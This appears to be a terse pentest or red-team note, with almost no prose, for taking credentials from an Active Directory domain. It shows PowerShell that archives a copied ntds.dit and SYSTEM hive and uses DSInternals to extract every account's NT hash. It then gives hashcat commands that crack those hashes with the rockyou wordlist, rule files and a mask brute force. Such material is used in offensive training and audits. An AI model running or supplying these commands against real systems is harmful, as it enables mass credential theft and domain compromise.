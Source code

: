 #https://www.dsinternals.com/en/
#https://attack.stealthbits.com/ntds-dit-security-active-directory

```powershell
Compress-Archive -Path C:\Users\Public\Downloads\poon -DestinationPath C:\Users\Public\Downloads\poon.zip
```


#Install-Module DSInternals -Force

```powershell
Import-Module DSInternals
$Key = Get-BootKey -SystemHiveFilePath C:\Users\p4yl0ad\Desktop\AD\poon\registry\SYSTEM
 
Get-ADDBAccount -BootKey $Key -DatabasePath 'C:\Users\p4yl0ad\Desktop\AD\poon\Active Directory\ntds.dit' -All |
  Format-Custom -View HashcatNT | 
  Out-File C:\Users\p4yl0ad\Desktop\AD\poon\Hashdump.txt
 ```
hashcat -m 1000 -a 0 Hashdump.txt -o Cracked.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

hashcat -m 1000 -a 0 Hashdump.txt -o Cracked-otrta.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt -r /usr/share/hashcat/rules/otrta.rule

hashcat -m 1000 -a 3 --custom-charset1=?l?d?u --username -o cracked.txt .\Hashdump.txt ?1?1?1?1?1?1?1?1
